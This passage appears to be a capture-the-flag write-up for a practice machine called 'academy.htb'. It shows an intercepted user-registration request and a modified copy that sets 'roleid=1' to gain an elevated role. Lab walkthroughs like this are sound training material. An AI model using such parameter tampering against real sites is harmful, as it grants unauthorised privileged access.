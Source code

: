 I registered a new user and tried to login.

| Username | Password |
| --- | --- |
| test | test |

After logging in i checked everything i could find but there was nothing special.

So i decided to intercept the request with `Burp Suite` while creating a new user and take a closer look.

| Username | Password |
| --- | --- |
| testuser | testuser |

Request:

```console
POST /register.php HTTP/1.1
Host: academy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 56
Origin: http://academy.htb
DNT: 1
Connection: close
Referer: http://academy.htb/register.php
Cookie: PHPSESSID=li0pnb6rt1ro9rtc5spb6ji8qj
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

uid=testuser&password=testuser&confirm=testuser&roleid=0
```

I modified the request to give myself the role id `1`.

Modified Request:

```console
POST /register.php HTTP/1.1
Host: academy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 56
Origin: http://academy.htb
DNT: 1
Connection: close
Referer: http://academy.htb/register.php
Cookie: PHPSESSID=li0pnb6rt1ro9rtc5spb6ji8qj
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

uid=testuser&password=testuser&confirm=testuser&roleid=1
```
